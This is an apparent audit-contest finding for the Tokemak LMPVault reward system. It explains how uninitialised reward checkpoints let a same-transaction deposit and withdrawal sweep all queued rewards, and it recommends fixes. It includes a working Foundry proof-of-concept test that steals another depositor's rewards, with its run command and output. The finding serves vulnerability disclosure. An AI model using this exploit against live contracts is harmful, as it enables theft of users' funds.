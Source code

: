 Bald Turquoise Shetland

high

# Malicious actor can steal rewards because rewards are not updated prior to staking
## Summary

When a user deposits/mints he starts gathering rewards. The reward logic incorrectly assigns initial rewards without initializing `userRewardPerTokenPaid[account]` which leads to immediate rewards earned.

## Vulnerability Detail
When a user deposits `_afterTokenTransfer` is called **AFTER** the users balance is updated.
Therefore `rewarder.stake` will be called after the balance is updated (to start earning rewards).
```solidity
    function _afterTokenTransfer(address from, address to, uint256 amount) internal virtual override {
-------
        if (to != address(0)) {
            rewarder.stake(to, amount);
        }
    }
```

`stake` calls `_updateReward` to update the rewards earned for the account
```solidity
    function stake(address account, uint256 amount) public onlyStakeTracker {
        _updateReward(account);
-------
```

`_updateReward` updates `rewards[account]` and `userRewardPerTokenPaid[account]`
```solidity
    function _updateReward(address account) internal {
--------
        rewardPerTokenStored = rewardPerToken();
--------
        if (account != address(0)) {
            earnedRewards = earned(account);
            rewards[account] = earnedRewards; 
            userRewardPerTokenPaid[account] = rewardPerTokenStored;
        }
--------
    }

    function earned(address account) public view returns (uint256) {
        return (balanceOf(account) * (rewardPerToken() - userRewardPerTokenPaid[account]) / 1e18) + rewards[account];
    }
```

ISSUE -> In first staking the calculation of the earned rewards from `earned(address account)` will be:
```solidity
balanceOf(account) * rewardPerToken() / 1e18
``` 
since `userRewardPerTokenPaid[account])` and `rewards[account]` were never initialized. 
This means that `rewards[account]` will be set to the balance of the user multiplied by the current `rewardPerToken` **immediately**.

`_updateReward` should be called before updating the balance.

Reward distribution will be unbalanced and later depositors will receive more rewards then earned

Additionally a hacker can leverage this bug to steal all rewards:
When a user withdraws `_beforeTokenTransfer` is called to withdraw the rewards for the user
https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVault.sol#L834
```solidity
    function _beforeTokenTransfer(address from, address to, uint256 amount) internal virtual override whenNotPaused {
-------
        if (from != address(0)) {
            rewarder.withdraw(from, amount, true);
        }
``` 

Therefore a malicious actor can perform both deposit and withdraw in the same transaction and sweep rewards. (see POC)

## Impact

There are a major implications of this bug
1. Unfair distribution of rewards - later depositor will get a bigger slice of rewards for his staking time then a previous depositor.  (Loss of funds)
2. Malicious actor can steal the rewards. (Loss of funds)

Additionally, both 1 and 2 will make withdrawals of legitimate users revert due to insufficient TOKE rewards

## Code Snippet

The following POC shows how a depositor (ALICE) is supposed to earn all rewards but then in the same transaction the hacker deposits and withdraws and gains all the rewards to himself leaving Alice with 0 rewards.

Add the following test to `LMPVault-Withdraw.t.sol`
```solidity
    function test_steal_reward() public {
        _accessController.grantRole(Roles.DV_REWARD_MANAGER_ROLE, address(this));
        _lmpVault.rewarder().addToWhitelist(address(this));

        // Alice Deposit 10_000 to vault
        address alice = address(0xdeadbeef);
        _asset.mint(alice, 1_000);
        vm.startPrank(alice);
        _asset.approve(address(_lmpVault), 1_000);
        _lmpVault.deposit(1_000, alice);
        vm.stopPrank();

        // rewarder adds 1_000_000 rewards to the queue (just under MIN_STAKE_AMOUNT)
        uint256 rewardToAdd = 1_000_000;
        _toke.mint(address(this), rewardToAdd);
        _toke.approve(address(_lmpVault.rewarder()), rewardToAdd);
        _lmpVault.rewarder().queueNewRewards(rewardToAdd);

        // Go to the future to accumulate rewards 
        vm.roll(block.number + 10_000);

        // Validate alice is eligible for ALL rewards
        uint256 aliceReward = _lmpVault.rewarder().earned(alice);
        assertEq(aliceReward, rewardToAdd);

        // Hacker deposits 1_000_000_000
        address hacker = address(0x1337);
        uint256 hackerAmount = 1_000_000_000;
        _asset.mint(hacker, hackerAmount);
        
        vm.startPrank(hacker);
        _asset.approve(address(_lmpVault), hackerAmount);
        uint256 shares = _lmpVault.deposit(hackerAmount, hacker);
        
        // Hacker withdraw 1_000_000_000 tokens
        _lmpVault.withdraw(hackerAmount, hacker, hacker);
        vm.stopPrank();

        // Validate hacker was able to get all his funds back
        assertEq(_asset.balanceOf(hacker), hackerAmount);
        // Validate that hacker was able to receive all rewards (minus 1)
        assertEq(_toke.balanceOf(hacker), rewardToAdd - 1);

        // Validate that alice has no rewards
        aliceReward = _lmpVault.rewarder().earned(alice);
        assertEq(aliceReward, 0);
    }
```

To execute run
```solidity
forge test --match-test "test_steal_reward" -vvv 
```

Expected output:
```solidity
Running 1 test for test/vault/LMPVault-Withdraw.t.sol:LMPVaultMintingTests
[PASS] test_steal_reward() (gas: 748994)
Test result: ok. 1 passed; 0 failed; finished in 8.01ms
```

## Tool used

Manual Review, Foundry

## Recommendation

There are two mitigations that can be placed:
1. Add a `updateReward` function the the `MainRewarder` and call it in `_beforeTokenTransfer`:
```solidity
    function updateReward(address account) public onlyStakeTracker {
        _updateReward(account);
    }
```
```solidity
    function _beforeTokenTransfer(address from, address to, uint256 amount) internal virtual override whenNotPaused {
        // Nothing to do really do here
        if (from == to) {
            return;
        }

        if (to != address(0)) {
            rewarder.updateReward(to);
        }
-------
```

2. In `_updateReward` check if `userRewardPerTokenPaid[account]` is zero, if so do not update ` rewards[account]`

Same logic should be applied to DestinationVault